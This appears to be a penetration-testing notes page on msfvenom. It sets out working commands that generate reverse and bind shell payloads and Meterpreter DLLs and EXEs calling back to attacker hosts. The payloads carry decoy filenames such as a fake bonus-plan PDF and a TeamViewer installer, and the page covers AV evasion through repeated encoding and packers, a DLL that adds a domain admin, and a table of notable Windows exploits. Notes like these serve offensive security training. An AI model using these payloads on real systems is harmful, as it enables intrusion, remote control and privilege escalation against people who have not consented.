 ```yaml
---
title: msfvenom
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```

# msfvenom

MSFVenom is the successor of MSFPayload and MSFEncode, two stand-alone scripts that used to work in conjunction with msfconsole to provide users with highly customizable and hard-to-detect payloads for their exploits.

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  

# list all the available payloads
msfvenom -l payloads  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```


## Some flags

```bash
# -b, or --bad-chars: The list of characters to avoid example: '0'

```

## Single  payload
`Singles` are self-contained payloads. Some exploits will not support the resulting size of these payloads as they can get quite large.

## Staged payload

```bash
# Example of a linux staged payload
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.66.166.2 lport=443 -f elf -o newfile

# Example of a windows staged payload
msfvenom -p windows/x64/meterpreter/bind_tcp lhost=10.10.14.72 lport=1234 -f aspx -o lal
```


After that

```bash
chmod +x newfile 
```

When creating a staged payload, you will need to use a metasploit handler (exploit/multi/handler) in order to receive the shell connection as only metasploit contains proper logic that will send the rest of the payload to the connector . In that case, the metasploit payload has to be the same one as the MSFVenom one.

## Stagedless payload

A stage less payload is a standalone program that does not need anything adittional (no metasploit connection), just the netcat listener on the computer.

```bash
# Example of a windows stageless payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.


## crafting a DLL file with a webshell

The `Meterpreter` payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IPAttacker> LPORT=<4444> -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file

```
[More about DLL highjacking in thick client applications](thick-applications/tca-attacking-thick-clients-applications.md#how-is-dll-hijacking-perform).


### crafting a .exe file with Shikata Ga Nai encoder

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
# -e: chosen encoder 


```

Shikata Ga Nai encoder will be most likely detected by AV and IDS/IPS. One better option would be to try running it through multiple iterations of the same Encoding scheme:

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

But, still, we could be getting detected.

## Crafting a dll that executes a command

We can generate a malicious DLL to add a user to the `domain admins` group using `msfvenom`.

```shell-session
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```


## Module msf-virustotal

 Alternatively, Metasploit offers a tool called msf-virustotal that we can use with an API key to analyze our payloads. However, this requires free registration on VirusTotal.
 
```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```


## Packers

The term `Packer` refers to the result of an `executable compression` process where the payload is packed together with an executable program and with the decompression code in one single file. When run, the decompression code returns the backdoored executable to its original state, allowing for yet another layer of protection against file scanning mechanisms on target hosts. This process takes place transparently for the compressed executable to be run the same way as the original executable while retaining all of the original functionality. In addition, msfvenom provides the ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.

A list of popular packer software:

| | | |
|---|---|---|
|[UPX packer](https://upx.github.io)|[The Enigma Protector](https://enigmaprotector.com)|[MPRESS](https://www.matcode.com/mpress.htm)|
|Alternate EXE Packer|ExeStealth|Morphine|
|MEW|Themida||

If we want to learn more about packers, please check out the [PolyPack project](https://jon.oberheide.org/files/woot09-polypack.pdf).


## Mitical attacks

|**Vulnerability**|**Description**|
|---|---|
|`MS08-067`|MS08-067 was a critical patch pushed out to many different Windows revisions due to an SMB flaw. This flaw made it extremely easy to infiltrate a Windows host. It was so efficient that the Conficker worm was using it to infect every vulnerable host it came across. Even Stuxnet took advantage of this vulnerability.|
|`Eternal Blue`|MS17-010 is an exploit leaked in the Shadow Brokers dump from the NSA. This exploit was most notably used in the WannaCry ransomware and NotPetya cyber attacks. This attack took advantage of a flaw in the SMB v1 protocol allowing for code execution. EternalBlue is believed to have infected upwards of 200,000 hosts just in 2017 and is still a common way to find access into a vulnerable Windows host.|
|`PrintNightmare`|A remote code execution vulnerability in the Windows Print Spooler. With valid credentials for that host or a low privilege shell, you can install a printer, add a driver that runs for you, and grants you system-level access to the host. This vulnerability has been ravaging companies through 2021. 0xdf wrote an awesome post on it [here](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html).|
|`BlueKeep`|CVE 2019-0708 is a vulnerability in Microsoft's RDP protocol that allows for Remote Code Execution. This vulnerability took advantage of a miss-called channel to gain code execution, affecting every Windows revision from Windows 2000 to Server 2008 R2.|
|`Sigred`|CVE 2020-1350 utilized a flaw in how DNS reads SIG resource records. It is a bit more complicated than the other exploits on this list, but if done correctly, it will give the attacker Domain Admin privileges since it will affect the domain's DNS server which is commonly the primary Domain Controller.|
|`SeriousSam`|CVE 2021-36924 exploits an issue with the way Windows handles permission on the `C:\Windows\system32\config` folder. Before fixing the issue, non-elevated users have access to the SAM database, among other files. This is not a huge issue since the files can't be accessed while in use by the pc, but this gets dangerous when looking at volume shadow copy backups. These same privilege mistakes exist on the backup files as well, allowing an attacker to read the SAM database, dumping credentials.|
|`Zerologon`|CVE 2020-1472 is a critical vulnerability that exploits a cryptographic flaw in Microsoft’s Active Directory Netlogon Remote Protocol (MS-NRPC). It allows users to log on to servers using NT LAN Manager (NTLM) and even send account changes via the protocol. The attack can be a bit complex, but it is trivial to execute since an attacker would have to make around 256 guesses at a computer account password before finding what they need. This can happen in a matter of a few seconds.|

